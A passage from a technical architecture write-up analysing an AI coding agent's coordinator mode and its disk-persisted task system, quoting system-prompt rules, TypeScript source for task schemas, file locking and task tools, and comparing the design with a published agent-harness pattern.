For verification: "Try edge cases and error paths -- don't just re-run what the implementation worker ran" and "Investigate failures -- don't dismiss as unrelated without evidence." These instructions push verifiers toward adversarial testing rather than confirmation bias.

### Coordinator system prompt detailed walkthrough

The `getCoordinatorSystemPrompt()` function generates a prompt that is approximately 250 lines of instructional text. This prompt is the single most important artifact in the coordinator system because it defines the behavioral contract that the LLM must follow. Understanding its structure reveals how cc uses prompt engineering to enforce architectural constraints that would otherwise require code-level enforcement.

The prompt opens with a role definition at `src/coordinator/coordinatorMode.ts:L116-L126`: "You are a coordinator. Your job is to: Help the user achieve their goal; Direct workers to research, implement and verify code changes; Synthesize results and communicate with the user; Answer questions directly when possible -- don't delegate work that you can handle without tools." This last point is critical: the coordinator should not over-delegate. Simple questions that the coordinator can answer from its own knowledge should be answered directly, saving the latency and cost of spawning a worker.

The prompt then establishes communication boundaries at `src/coordinator/coordinatorMode.ts:L126-L127`: "Every message you send is to the user. Worker results and system notifications are internal signals, not conversation partners -- never thank or acknowledge them. Summarize new information for the user as it arrives." This rule prevents a common failure mode where the LLM treats worker notifications as conversational turns, leading to awkward exchanges where the coordinator thanks a worker or asks it questions through the user-facing channel.

The concurrency guidance at `src/coordinator/coordinatorMode.ts:L213-L218` is particularly detailed: "Parallelism is your superpower. Workers are async. Launch independent workers concurrently whenever possible -- don't serialize work that can run simultaneously and look for opportunities to fan out." This instruction explicitly tells the LLM to use parallel tool calls, which is a non-obvious capability that many LLMs do not exercise by default. Without this instruction, the coordinator would tend to launch workers sequentially, negating the primary benefit of the multi-agent architecture.

### The team lifecycle

```mermaid
stateDiagram-v2
    [*] --> Idle: User starts session in coordinator mode
    Idle --> Researching: User makes a request
    Researching --> Synthesizing: All research workers complete
    Synthesizing --> Implementing: Coordinator dispatches implementation worker
    Implementing --> Verifying: Implementation worker completes
    Verifying --> Done: Verification worker confirms success
    Done --> Idle: Ready for next request
    Implementing --> Correcting: Implementation worker fails
    Correcting --> Implementing: Coordinator dispatches correction
    Verifying --> Implementing: Verification worker finds issues
    Correcting --> Done: Correction succeeds
```

The team lifecycle shows the primary state machine for a coordinator session. The most common loop is Researching -> Synthesizing -> Implementing -> Verifying -> Done, but failures at any stage can cause the flow to loop back. The Correcting state is entered when an implementation worker reports failure, and the coordinator continues the same worker with corrective instructions. The Verifying -> Implementing transition occurs when the verification worker finds issues, requiring a fresh implementation attempt.

## Edge cases and failure modes

### Scratchpad circular dependency

The `isScratchpadGateEnabled()` function at `src/coordinator/coordinatorMode.ts:L25-L27` is deliberately duplicated from `utils/permissions/filesystem.ts` to avoid a circular dependency. Importing `filesystem.ts` would pull in `permissions.ts`, which transitively imports `coordinatorMode.ts`. The comment at `src/coordinator/coordinatorMode.ts:L19-L24` explains the reasoning:

```typescript
// src/coordinator/coordinatorMode.ts:L19-L24 — Circular dependency avoidance via duplication
// Checks the same gate as isScratchpadEnabled() in
// utils/permissions/filesystem.ts. Duplicated here because importing
// filesystem.ts creates a circular dependency (filesystem -> permissions
// -> ... -> coordinatorMode). The actual scratchpad path is passed in via
// getCoordinatorUserContext's scratchpadDir parameter (dependency injection
// from QueryEngine.ts, which lives higher in the dep graph).
```

The actual scratchpad path is injected from `QueryEngine.ts` rather than read directly, breaking the dependency cycle. This pattern -- duplicating a small function to break a circular dependency and injecting the needed value from a higher-level module -- is a pragmatic solution that avoids the complexity of dependency injection frameworks or module restructuring.

### Session mode mismatch on resume

When a session is resumed with `--resume`, the stored session mode may differ from the current environment variable. The `matchSessionMode()` function at `src/coordinator/coordinatorMode.ts:L49-L78` handles this by flipping the environment variable. If the session was in coordinator mode but the current process is not, the function sets `CLAUDE_CODE_COORDINATOR_MODE=1`. The function logs a `tengu_coordinator_mode_switched` analytics event so the team can track how often mode mismatches occur in production. The function returns a warning message that gets injected into the resumed conversation, informing the user that the mode was switched.

### Worker failure handling

The coordinator's system prompt specifies that when a worker reports failure, the coordinator should continue the same worker with `SendMessage` (it has the full error context). If a correction attempt fails, the coordinator should try a different approach or report to the user. It should never silently retry the same approach through a fresh worker, because that loses the error context that could inform a different strategy. The prompt at `src/coordinator/coordinatorMode.ts:L229-L233` explicitly states: "When a worker reports failure... Continue the same worker with SendMessage -- it has the full error context. If a correction attempt fails, try a different approach or report to the user."

### Concurrent write conflicts

The system prompt warns that write-heavy tasks should run one at a time per set of files. Read-only tasks (research) can run in parallel freely, but parallel workers writing to the same files will conflict. The coordinator must serialize implementation work by file area, only overlapping when workers operate on disjoint file sets. This constraint is a fundamental limitation of the shared-filesystem model: without a transactional file system or merge protocol, concurrent writes will overwrite each other.

### Coordinator must not fabricate results

The system prompt at `src/coordinator/coordinatorMode.ts:L139-L141` includes a critical rule: "After launching agents, briefly tell the user what you launched and end your response. Never fabricate or predict agent results in any format -- results arrive as separate messages." This rule prevents the common failure mode where an LLM predicts what a worker will find before the worker has actually run, creating false expectations that are hard to correct when the real results arrive.

## Where cc diverges from the published pattern

### Generator-evaluator without Ouroboros mitigation

HER Section 9.2 describes the Ouroboros Problem: when both generator and evaluator are LLMs, who validates the validator? The coordinator addresses this by requiring verification workers to have fresh context (no knowledge of the generation process). However, cc does not implement HER's recommended deterministic sensors as a primary quality gate. The coordinator relies on workers running tests and typechecks, but there is no hardcoded requirement that verification must include deterministic checks before the coordinator reports success. A verification worker that only inspects code without running tests would pass the coordinator's protocol.

HER's mitigation is to "ground evaluator output in observable artifacts" -- the evaluator must cite specific test results, specific lines of code, or specific browser screenshots. The coordinator's system prompt encourages this ("Investigate failures -- don't dismiss as unrelated without evidence") but does not enforce it structurally. A verification worker that merely says "looks good" without running tests would not be caught by the coordinator.

### File-based communication partial adoption

HER Section 9.3 recommends file-based inter-agent communication with git providing an audit trail. The coordinator's scratchpad directory is a step in this direction -- workers can read and write to a shared directory without permission prompts. However, the primary communication path between coordinator and workers is the `SendMessage` tool, which routes through in-memory queues rather than persisted files. The scratchpad is optional and feature-gated, not the default communication mechanism. HER's security caution about file-based communication -- that persisted data can leak between sessions without cleanup protocols -- is partially addressed by the scratchpad's per-team isolation, but there is no explicit cleanup mechanism.

### No explicit session protocol

HER Section 10.3 prescribes an eight-phase session protocol (ORIENT, SETUP, VERIFY, SELECT, IMPLEMENT, TEST, UPDATE, EXIT). The coordinator's system prompt implicitly covers some of these phases (research maps to ORIENT, implementation maps to IMPLEMENT) but does not enforce the full protocol. A worker could skip the VERIFY phase (baseline testing before new work) without the coordinator detecting the omission. The lack of a mandatory VERIFY phase is a significant gap: without baseline testing, a worker might break existing functionality without realizing it, because it never confirmed that the tests were passing before starting work.

### No model routing for cost optimization

HER Section 9.1 and Section 13 describe model routing as a cost optimization: expensive models for planning, cheap models for execution. The coordinator's system prompt at `src/coordinator/coordinatorMode.ts:L138` explicitly says "Do not set the model parameter. Workers need the default model for the substantive tasks you delegate." This means all workers use the same model as the coordinator, regardless of task complexity. For a production system, this is a significant cost inefficiency: research and verification tasks could use cheaper models while implementation tasks benefit from more capable ones.

The rationale for this constraint is pragmatic: when the coordinator selects a model for a worker, it is making a judgment about the task's difficulty that may be wrong. A research task that the coordinator expects to be simple might uncover a complex architectural issue requiring a more capable model. By forcing all workers to use the default model, the system avoids the failure mode where a cheap model is assigned to a task that exceeds its capability, producing poor results that waste more tokens in retries than the initial savings.

However, this all-same-model approach has a significant cost implication. In a typical coordinator session, research workers may consume 50,000-100,000 tokens each exploring the codebase, while the coordinator itself uses far fewer tokens for synthesis. If research workers could use a cheaper model (e.g., Haiku instead of Sonnet), the cost savings would be substantial. The tradeoff is between cost efficiency and the risk of under-capable workers producing low-quality research that leads to incorrect implementation specs.

### No deterministic verification requirement

The coordinator's verification protocol relies on the LLM's willingness to run tests and investigate failures, but it does not require deterministic verification as a prerequisite for reporting success. A worker could report "verification passed" without running any tests, and the coordinator would accept this verdict at face value. HER Section 9.2 recommends using deterministic sensors (tests, linters, type checkers) as the primary quality gate, with LLM evaluators only for semantic judgments. cc's coordinator inverts this: LLM evaluation is the primary gate, and deterministic checks are recommended but not enforced.

This gap is particularly significant because of the Ouroboros problem. When both the implementation worker and the verification worker are LLMs, there is a risk that the verification worker will rubber-stamp the implementation without thorough testing. The coordinator's system prompt warns against this ("A verifier that rubber-stamps weak work undermines everything") but the warning is instructional, not structural. A production system should enforce that verification workers run at least one deterministic check (e.g., typecheck, lint, or test suite) before reporting success.

### No explicit token budget for workers

The coordinator's system prompt does not mention token budgets for workers. A research worker that goes down a rabbit hole can consume hundreds of thousands of tokens exploring irrelevant code before reporting back. The coordinator has no mechanism to set a per-worker token limit or to abort a worker that is consuming too many tokens without producing results. The `TaskStopTool` can be used to manually stop a worker, but the coordinator must notice the problem and decide to stop the worker, which requires monitoring worker progress.

### Missing coordination primitives

HER Section 9.1 describes three tiers of multi-agent orchestration: in-process subagents, local orchestrators, and cloud async. The coordinator implements the in-process tier well but does not provide coordination primitives for the other tiers. There is no built-in mechanism for a coordinator to dispatch work to a remote agent and receive results asynchronously, or for multiple coordinators to collaborate on a shared task list. The `RemoteTriggerTool` provides some remote dispatch capability, but it is not integrated with the coordinator's workflow system.

## Developer takeaways for building a long-running agent

1. **Separate planning from execution.** The coordinator pattern works because the coordinator does not execute -- it synthesizes. When the planner is also the implementer, context rot degrades both roles. A coordinator that only reads and delegates maintains a clean context for planning, ensuring that the orchestration layer does not suffer from the same context exhaustion that degrades long-running single agents.

2. **Always synthesize before delegating.** "Based on your findings" is an anti-pattern. The coordinator must understand the findings well enough to write a specific spec with file paths, line numbers, and expected outcomes. This understanding step is the quality gate that prevents the Ouroboros problem. Without synthesis, the coordinator is just a message router, and errors amplify through the feedback loop instead of being corrected.

3. **Fresh context for verification.** A verification worker must never carry implementation context. The coordinator should always spawn a fresh worker for verification, because shared context creates anchoring bias -- the verifier will be less likely to notice problems in code it "knows" the reasoning behind. HER's NLAH ablation data is cautionary: adding a verifier produced -0.8% on SWE-bench when the verifier's acceptance criteria diverged from the actual benchmark. More structure does not automatically improve performance.

4. **Gate coordinator mode at two levels.** The compile-time feature gate plus runtime environment variable pattern allows shipping coordinator code without activating it. This is useful for canary deployments and A/B testing of multi-agent orchestration. The `matchSessionMode()` function ensures that resumed sessions maintain their original mode, preventing confusing mode switches during long-running tasks.

5. **Break circular dependencies with dependency injection.** The scratchpad gate check duplication in `coordinatorMode.ts` shows a common pattern in large codebases: when a module cannot import another due to circular dependencies, extract the needed function and inject the result from a higher-level module. The scratchpad directory path is injected from `QueryEngine.ts`, which sits above both modules in the dependency graph.

6. **Structure worker prompts with purpose statements.** The coordinator system prompt requires including a brief purpose statement in every worker prompt so the worker can calibrate depth and emphasis. This small addition significantly improves output quality because the worker knows whether it is researching for a PR description or investigating for an implementation plan. Without a purpose statement, workers tend to produce either too much or too little detail for the task at hand.

7. **Never fabricate worker results.** The coordinator must end its response after launching workers and wait for their notifications. Predicting what a worker will find before it finishes creates false expectations that are hard to correct when the real results arrive. This rule is so important that it is stated explicitly in the system prompt: "Never fabricate or predict agent results in any format -- results arrive as separate messages."

8. **Use XML for machine-parseable notifications.** The `<task-notification>` format allows the coordinator to distinguish worker results from user messages by checking for the opening tag. This simple parsing heuristic -- look for a specific XML tag rather than trying to classify message content -- is reliable and cheap. For a system that processes hundreds of messages per session, this kind of structured format prevents classification errors that would cause the coordinator to misinterpret worker results as user input.

9. **Serialize write-heavy work, parallelize read-heavy work.** The concurrency rules are asymmetric: research workers can run in parallel freely because they only read files, but implementation workers must be serialized per file area because concurrent writes will conflict. This asymmetry is fundamental to any shared-filesystem multi-agent system and must be communicated clearly to the coordinating LLM through its system prompt. Without this guidance, the coordinator would tend to launch implementation workers in parallel, causing file conflicts that waste tokens and require manual resolution.

10. **Treat the system prompt as the primary enforcement mechanism.** The coordinator's behavioral constraints -- synthesize before delegating, use fresh context for verification, never fabricate results -- are all enforced through the system prompt, not through code-level guards. This means the constraints can be violated by a sufficiently confused or misaligned LLM. For critical production systems, consider adding code-level enforcement for the most important constraints (e.g., a code-level check that verification workers are spawned fresh rather than continued).
# Tasks: A Durable Unit of Work

## Overview

Tasks are cc's mechanism for tracking units of work across agent sessions. They persist to disk as JSON files, support filesystem locking for concurrent access, and provide the coordination layer that enables multi-agent swarms to divide work without stepping on each other. The task system spans two layers: the low-level persistence and locking primitives in `src/utils/tasks.ts` (862 LOC), and the seven task-type implementations that register themselves in the in-memory `AppState` task registry.

This chapter examines the task contract, the filesystem-based persistence model, the locking and high-water-mark mechanisms, the tool surface (TaskCreate, TaskUpdate, TaskList, TaskGet, TaskStop, TaskOutput), and the seven task types that bring this infrastructure to life.

The task system embodies HER's three-file state pattern (Section 8.2) in a particularly interesting way. Where HER prescribes `tasks.json`, `progress.txt`, and `AGENTS.md`, cc implements only the structured task list component. The human-readable progress notes and discovered-patterns files are handled by other subsystems (session persistence and CLAUDE.md respectively). This separation reflects a deliberate design choice: the task system focuses exclusively on work tracking, while other subsystems handle knowledge persistence.

## Data structures and contracts

### Task schema

The core `Task` type is defined in `src/utils/tasks.ts:L76-L89` using Zod for runtime validation:

```typescript
// src/utils/tasks.ts:L76-L89 — Core task schema with Zod validation
export const TaskSchema = lazySchema(() =>
  z.object({
    id: z.string(),
    subject: z.string(),
    description: z.string(),
    activeForm: z.string().optional(), // present continuous form for spinner (e.g., "Running tests")
    owner: z.string().optional(), // agent ID
    status: TaskStatusSchema(),
    blocks: z.array(z.string()), // task IDs this task blocks
    blockedBy: z.array(z.string()), // task IDs that block this task
    metadata: z.record(z.string(), z.unknown()).optional(), // arbitrary metadata
  }),
)
export type Task = z.infer<ReturnType<typeof TaskSchema>>
```

The `lazySchema()` wrapper defers schema construction until first use, preventing circular dependency issues during module initialization. Each field serves a specific purpose in the multi-agent coordination model:

- **id**: Monotonically increasing integer, assigned atomically during creation under a file lock.
- **subject**: Brief imperative-form title (e.g., "Fix authentication bug in login flow").
- **description**: Detailed explanation of what needs to be done, including enough context for another agent to pick up the task.
- **activeForm**: Present continuous form for UI spinners (e.g., "Fixing authentication bug").
- **owner**: Agent ID of the agent currently working on the task. Unset when the task is unassigned.
- **status**: One of three states: `pending`, `in_progress`, or `completed`.
- **blocks**: Array of task IDs that this task blocks from starting.
- **blockedBy**: Array of task IDs that must complete before this task can start.
- **metadata**: Arbitrary key-value store for task-specific data (e.g., PR numbers, commit hashes).

The three allowed statuses are defined at `src/utils/tasks.ts:L69-L74`:

```typescript
// src/utils/tasks.ts:L69-L74 — Tri-state status model
export const TASK_STATUSES = ['pending', 'in_progress', 'completed'] as const
export const TaskStatusSchema = lazySchema(() =>
  z.enum(['pending', 'in_progress', 'completed']),
)
export type TaskStatus = z.infer<ReturnType<typeof TaskStatusSchema>>
```

This tri-state model matches HER's recommendation that task status should be boolean pass/fail to prevent ambiguous partial states (Section 8.2). The `in_progress` state serves as the "claimed but not yet resolved" indicator. Notably, there is no `failed` status -- if a task fails, it remains `in_progress` and the owner can retry. This design avoids the ambiguity of whether a `failed` task should be retried or abandoned.

### Task list identity

The `getTaskListId()` function at `src/utils/tasks.ts:L199-L210` determines which task list an agent operates on, using a priority chain:

```typescript
// src/utils/tasks.ts:L199-L210 — Priority chain for task list identity
export function getTaskListId(): string {
  if (process.env.CLAUDE_CODE_TASK_LIST_ID) {
    return process.env.CLAUDE_CODE_TASK_LIST_ID
  }
  // In-process teammates use the leader's team name so they share the same
  // task list that tmux/iTerm2 teammates also resolve to.
  const teammateCtx = getTeammateContext()
  if (teammateCtx) {
    return teammateCtx.teamName
  }
  return getTeamName() || leaderTeamName || getSessionId()
}
```

This priority chain ensures that in-process teammates share the leader's task list, while standalone sessions fall back to their own session ID. The `leaderTeamName` variable at `src/utils/tasks.ts:L24-L26` is set by `TeamCreateTool` when a team is created. When the leader's team name changes, `notifyTasksUpdated()` fires so that UI subscribers refresh their views.

The `DEFAULT_TASKS_MODE_TASK_LIST_ID` constant at `src/utils/tasks.ts:L862` provides a fallback task list ID (`tasklist`) for sessions that use the Tasks feature without being part of a team. This ensures that even standalone sessions have a consistent task list namespace.

### Storage layout

Tasks are stored as individual JSON files under `~/.claude/tasks/<taskListId>/`. Each file is named `<taskId>.json`, where the task ID is a monotonically increasing integer. The `getTasksDir()` and `getTaskPath()` functions at `src/utils/tasks.ts:L221-L231` compute these paths:

```typescript
// src/utils/tasks.ts:L221-L231 — Filesystem paths for task persistence
export function getTasksDir(taskListId: string): string {
  return join(
    getClaudeConfigHomeDir(),
    'tasks',
    sanitizePathComponent(taskListId),
  )
}
export function getTaskPath(taskListId: string, taskId: string): string {
  return join(getTasksDir(taskListId), `${sanitizePathComponent(taskId)}.json`)
}
```

The `sanitizePathComponent()` function at `src/utils/tasks.ts:L217-L219` strips path traversal characters, allowing only alphanumeric characters, hyphens, and underscores. This prevents directory traversal attacks where a malicious task list ID could escape the tasks directory.

### ClaimTaskResult type

The `claimTask()` function returns a structured result at `src/utils/tasks.ts:L488-L499`:

```typescript
// src/utils/tasks.ts:L488-L499 — Structured result for task claiming
export type ClaimTaskResult = {
  success: boolean
  reason?:
    | 'task_not_found'
    | 'already_claimed'
    | 'already_resolved'
    | 'blocked'
    | 'agent_busy'
  task?: Task
  busyWithTasks?: string[] // task IDs the agent is busy with (when reason is 'agent_busy')
  blockedByTasks?: string[] // task IDs blocking this task (when reason is 'blocked')
}
```

The `agent_busy` reason is returned when the claiming agent already owns other unresolved tasks, enforcing HER's one-task-per-session rule (Section 10.1). The `blockedByTasks` array lists the specific task IDs that prevent claiming, enabling the agent to report this to the user or the coordinator.

### Signal-based update notifications

The `tasksUpdated` signal at `src/utils/tasks.ts:L18` provides an in-process notification mechanism for task list changes. The `createSignal()` utility creates a lightweight pub/sub system that listeners can subscribe to via `onTasksUpdated`:

```typescript
// src/utils/tasks.ts:L18 — Signal for task list update notifications
const tasksUpdated = createSignal()
export const onTasksUpdated = tasksUpdated.subscribe
```

The `notifyTasksUpdated()` function at `src/utils/tasks.ts:L61-L67` wraps the signal emit in a try/catch so that listener failures never propagate to callers:

```typescript
// src/utils/tasks.ts:L61-L67 — Safe notification emission
export function notifyTasksUpdated(): void {
  try {
    tasksUpdated.emit()
  } catch {
    // Ignore listener errors — task mutations must not fail due to notification issues
  }
}
```

This pattern ensures that task mutations (create, update, delete) are never blocked by notification failures. If a UI component throws during a notification, the task mutation has already succeeded and the error is silently ignored.

## Control flow

### Task creation with locking

The `createTask()` function at `src/utils/tasks.ts:L284-L308` uses file locking to prevent race conditions when multiple processes create tasks concurrently:

```typescript
// src/utils/tasks.ts:L284-L308 — Atomic task creation with file locking
export async function createTask(
  taskListId: string,
  taskData: Omit<Task, 'id'>,
): Promise<string> {
  const lockPath = await ensureTaskListLockFile(taskListId)

  let release: (() => Promise<void>) | undefined
  try {
    // Acquire exclusive lock on the task list
    release = await lockfile.lock(lockPath, LOCK_OPTIONS)

    // Read highest ID from disk while holding the lock
    const highestId = await findHighestTaskId(taskListId)
    const id = String(highestId + 1)
    const task: Task = { id, ...taskData }
    const path = getTaskPath(taskListId, id)
    await writeFile(path, jsonStringify(task, null, 2))
    notifyTasksUpdated()
    return id
  } finally {
    if (release) {
      await release()
    }
  }
}
```

The critical section reads the highest task ID from disk while holding the lock, increments it, writes the new task file, and releases the lock. The `finally` block ensures the lock is always released, even if an exception occurs during file writing.

The lock options at `src/utils/tasks.ts:L98-L108` are configured for high concurrency:

```typescript
// src/utils/tasks.ts:L98-L108 — Retry configuration for file locks
const LOCK_OPTIONS = {
  retries: {
    retries: 30,
    minTimeout: 5,
    maxTimeout: 100,
  },
}
```

These settings budget for approximately 10 concurrent swarm agents: each critical section takes 50-100ms, so the last caller in a 10-way race needs about 900ms, and 30 retries gives approximately 2.6 seconds of total wait time. The exponential backoff (5ms to 100ms) prevents lock contention from becoming a thundering herd.

```mermaid
sequenceDiagram
    participant Agent1 as Agent 1
    participant Agent2 as Agent 2
    participant LockFile as .lock file
    participant TasksDir as tasks/ directory
    participant HWM as .highwatermark

    Agent1->>LockFile: Acquire exclusive lock
    Agent1->>TasksDir: Read highest task ID
    Agent1->>HWM: Read high water mark
    Agent1->>TasksDir: Write task ID = highest+1
    Agent1->>LockFile: Release lock
    Agent2->>LockFile: Acquire exclusive lock
    Agent2->>TasksDir: Read highest task ID
    Agent2->>HWM: Read high water mark
    Agent2->>TasksDir: Write task ID = highest+1
    Agent2->>LockFile: Release lock
```

### High water mark for ID stability

The high-water-mark mechanism at `src/utils/tasks.ts:L91-L131` prevents task ID reuse after deletion or reset. The `.highwatermark` file stores the maximum task ID ever assigned:

```typescript
// src/utils/tasks.ts:L110-L131 — High water mark read and write
function getHighWaterMarkPath(taskListId: string): string {
  return join(getTasksDir(taskListId), HIGH_WATER_MARK_FILE)
}
async function readHighWaterMark(taskListId: string): Promise<number> {
  const path = getHighWaterMarkPath(taskListId)
  try {
    const content = (await readFile(path, 'utf-8')).trim()
    const value = parseInt(content, 10)
    return isNaN(value) ? 0 : value
  } catch {
    return 0
  }
}
```

The `findHighestTaskId()` function at `src/utils/tasks.ts:L271-L277` takes the maximum of both on-disk task files and the high-water mark. This dual-source approach handles the case where all task files have been deleted (e.g., after a `resetTaskList()` call) but the high-water mark preserves the highest ID ever assigned. Without the high-water mark, a reset task list would start reusing IDs from 1, potentially creating confusion if old task references (in blockedBy arrays or coordinator messages) now point to different tasks.

### Claim with busy check

The `claimTaskWithBusyCheck()` function at `src/utils/tasks.ts:L618-L692` performs an atomic claim that also verifies the agent is not already busy with other tasks. It uses a task-list-level lock (not a per-task lock) to prevent TOCTOU race conditions. The lock serializes both the busy check and the claim within a single critical section:

```mermaid
stateDiagram-v2
    [*] --> Pending: TaskCreate
    Pending --> InProgress: claimTask (agent claims)
    InProgress --> Completed: TaskUpdate status=completed
    Pending --> Pending: blockedBy check fails
    InProgress --> Pending: Agent killed (owner cleared)
    Completed --> [*]
```

The claim function first checks if the task exists, then if it is already claimed by another agent, then if it is already resolved, then if it has unresolved blockers. Only after all checks pass does it set the `owner` field. The busy-check variant adds one more check: it scans all tasks in the list to see if the claiming agent already owns other unresolved tasks. This check is performed atomically with the claim by holding the task-list-level lock throughout.

### Task status transitions

Tasks follow a strict lifecycle: they start as `pending`, transition to `in_progress` when claimed, and reach `completed` when done. The `deleteTask()` function at `src/utils/tasks.ts:L393-L441` handles cleanup by removing the file and updating the high water mark, then sweeping all other tasks to remove references to the deleted task from their `blocks` and `blockedBy` arrays.

The `resetTaskList()` function at `src/utils/tasks.ts:L147-L188` is called when a new swarm is created. It deletes all task files and writes a high-water mark file with the current highest ID. This ensures that task numbering starts at 1 for the new swarm while preserving the ID stability guarantee for any references to the old task list.

### The seven task types

The task registry in `AppState` supports seven distinct task types, each with its own state shape and lifecycle:

1. **local_agent** -- In-process subagent tasks (`LocalAgentTaskState` in `src/tasks/LocalAgentTask/LocalAgentTask.tsx`). These are the most common task type, representing workers spawned by the coordinator. They track the agent's progress through `AgentProgress` objects, queue pending messages from `SendMessage`, and support backgrounding/foregrounding.

2. **remote_agent** -- Cloud-based remote agent tasks (`RemoteAgentTaskState` in `src/tasks/RemoteAgentTask/RemoteAgentTask.tsx`). These represent tasks running on cc's cloud infrastructure, polled for status updates. They include remote-task-type-specific completion checkers.

3. **dream** -- Background memory consolidation (`DreamTaskState` in `src/tasks/DreamTask/DreamTask.ts`). These track the dream agent's progress, including which files were touched and which sessions are being reviewed.

4. **local_bash** -- Background shell command execution. These track running Bash commands that have been backgrounded.

5. **local_shell** -- Shell task variant with additional state for managing shell processes.

6. **main_session** -- Backgrounded main session queries (`LocalMainSessionTaskState` in `src/tasks/LocalMainSessionTask.ts`). When a user presses Ctrl+B twice, the current query is backgrounded and a fresh prompt appears. The backgrounded query continues running as a main-session task.

7. **In-process teammate** -- Teammate running in the same process as the lead agent, sharing the same `AppState`.

```mermaid
classDiagram
    class TaskStateBase {
        +string id
        +string description
        +string status
        +number startTime
        +number endTime
        +boolean notified
        +string toolUseId
    }
    class LocalAgentTaskState {
        +string agentId
        +string prompt
        +string agentType
        +AbortController abortController
        +AgentProgress progress
        +Message[] messages
        +boolean isBackgrounded
        +string[] pendingMessages
        +boolean retain
        +boolean diskLoaded
    }
    class RemoteAgentTaskState {
        +RemoteTaskType remoteTaskType
        +string sessionId
        +string command
        +SDKMessage[] log
        +TodoList todoList
        +number pollStartedAt
    }
    class DreamTaskState {
        +DreamPhase phase
        +number sessionsReviewing
        +string[] filesTouched
        +DreamTurn[] turns
    }
    TaskStateBase <|-- LocalAgentTaskState
    TaskStateBase <|-- RemoteAgentTaskState
    TaskStateBase <|-- DreamTaskState
```

### The in-memory task registry and its relationship to filesystem persistence

The seven task types above live in an in-memory registry stored in `AppState.tasks`, a `Record<string, TaskState>` map keyed by task ID. This in-memory registry is distinct from the filesystem-based persistence layer in `src/utils/tasks.ts`. The filesystem layer manages durable task records (the `Task` type with `id`, `subject`, `description`, `status`, `blocks`, `blockedBy`, `metadata`), while the in-memory registry manages live task state (the `TaskState` type with `status`, `startTime`, `endTime`, `notified`, `toolUseId`, plus type-specific fields like `AbortController` for agent tasks).

The two layers are synchronized but not identical. When `TaskCreateTool` creates a task, it writes a `Task` record to disk via `createTask()`, and the task also appears in `AppState.tasks` when the UI renders the task list. When `TaskUpdateTool` marks a task as completed, the filesystem record is updated via `updateTask()`, and the in-memory `TaskState` is updated via `updateTaskState()`. However, the in-memory registry contains ephemeral state (abort controllers, message queues, progress objects) that is never persisted to disk. If the process restarts, the filesystem records survive but the in-memory state is lost, which is why `TaskOutputTool` falls back to reading output from disk.

### The ensureTaskListLockFile pattern

The `ensureTaskListLockFile()` function at `src/utils/tasks.ts:L511-L523` creates a `.lock` file in the tasks directory for list-level locking. The function uses the `wx` (write-exclusive) flag to prevent two callers from both creating the file:

```typescript
// src/utils/tasks.ts:L511-L523 — Create lock file with exclusive-write flag
async function ensureTaskListLockFile(taskListId: string): Promise<string> {
  await ensureTasksDir(taskListId)
  const lockPath = getTaskListLockPath(taskListId)
  // proper-lockfile requires the target file to exist. Create it with the
  // 'wx' flag (write-exclusive) so concurrent callers don't both create it,
  // and the first one to create wins silently.
  try {
    await writeFile(lockPath, '', { flag: 'wx' })
  } catch {
    // EEXIST or other — file already exists, which is fine.
  }
  return lockPath
}
```

The `wx` flag causes `writeFile` to fail if the file already exists, which is exactly the desired behavior for a lock file. The first caller to create the lock file wins, and subsequent callers silently ignore the `EEXIST` error because the file's existence is sufficient for the `proper-lockfile` library to acquire a lock on it.

### Task creation and hook validation flow

When a task is created via `TaskCreateTool`, the flow proceeds through several stages:

1. The tool calls `createTask()` which acquires the task-list lock, assigns the next available ID, writes the JSON file, and releases the lock.
2. The tool calls `executeTaskCreatedHooks()` which runs any lifecycle hooks registered for the `TaskCreated` event.
3. If any hook returns a blocking error, the tool calls `deleteTask()` to remove the newly created task and throws an error.
4. If all hooks pass, the tool auto-expands the task list in the UI and returns the task ID.

This two-phase create-then-validate pattern is important because hooks are executed outside the task-list lock. If hooks were executed inside the lock, a slow hook would block all task operations for the entire list. The tradeoff is that a hook failure leaves a brief window where the task exists on disk but will be deleted. This window is acceptable because the task is in `pending` status and no agent has claimed it yet.

### TaskUpdateTool

The `TaskCreateTool` at `src/tools/TaskCreateTool/TaskCreateTool.ts:L48-L138` creates a new task and auto-expands the task list in the UI. Its tool name is defined at `src/tools/TaskCreateTool/constants.ts` as `TaskCreate`. The prompt at `src/tools/TaskCreateTool/prompt.ts` generates context-sensitive guidance: when `isAgentSwarmsEnabled()` is active, it adds tips about assigning tasks to teammates and including enough detail for another agent to understand the work. After creating the task, the tool runs `executeTaskCreatedHooks()` which allows lifecycle hooks to block the creation:

```typescript
// src/tools/TaskCreateTool/TaskCreateTool.ts:L80-L119 — Task creation with hook validation
async call({ subject, description, activeForm, metadata }, context) {
  const taskId = await createTask(getTaskListId(), {
    subject,
    description,
    activeForm,
    status: 'pending',
    owner: undefined,
    blocks: [],
    blockedBy: [],
    metadata,
  })

  const blockingErrors: string[] = []
  const generator = executeTaskCreatedHooks(
    taskId,
    subject,
    description,
    getAgentName(),
    getTeamName(),
    undefined,
    context?.abortController?.signal,
    undefined,
    context,
  )
  for await (const result of generator) {
    if (result.blockingError) {
      blockingErrors.push(getTaskCreatedHookMessage(result.blockingError))
    }
  }

  if (blockingErrors.length > 0) {
    await deleteTask(getTaskListId(), taskId)
    throw new Error(blockingErrors.join('\n'))
  }

  // Auto-expand task list when creating tasks
  context.setAppState(prev => {
    if (prev.expandedView === 'tasks') return prev
    return { ...prev, expandedView: 'tasks' as const }
  })

  return {
    data: {
      task: {
        id: taskId,
        subject,
      },
    },
  }
}
```

If any hook returns a blocking error, the newly created task is immediately deleted and an error is thrown. This two-phase create-then-validate pattern ensures that hooks can prevent tasks from being created without blocking the file lock.

### TaskUpdateTool and verification nudge

The `TaskUpdateTool` at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L88-L406` is the most complex task tool, supporting updates to any field on a task. Its tool name is defined at `src/tools/TaskUpdateTool/constants.ts` as `TaskUpdate`, and its prompt at `src/tools/TaskUpdateTool/prompt.ts` documents the status workflow (`pending` to `in_progress` to `completed`), the `deleted` action for permanent removal, and guidance on when to update versus when to leave a task as-is. The tool's input schema at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L33-L66` includes a special `deleted` status value in addition to the standard three statuses:

```typescript
// src/tools/TaskUpdateTool/TaskUpdateTool.ts:L33-L66 — Extended status schema for task updates
const TaskUpdateStatusSchema = TaskStatusSchema().or(z.literal('deleted'))

return z.strictObject({
  taskId: z.string().describe('The ID of the task to update'),
  subject: z.string().optional().describe('New subject for the task'),
  description: z.string().optional().describe('New description for the task'),
  activeForm: z
    .string()
    .optional()
    .describe(
      'Present continuous form shown in spinner when in_progress (e.g., "Running tests")',
    ),
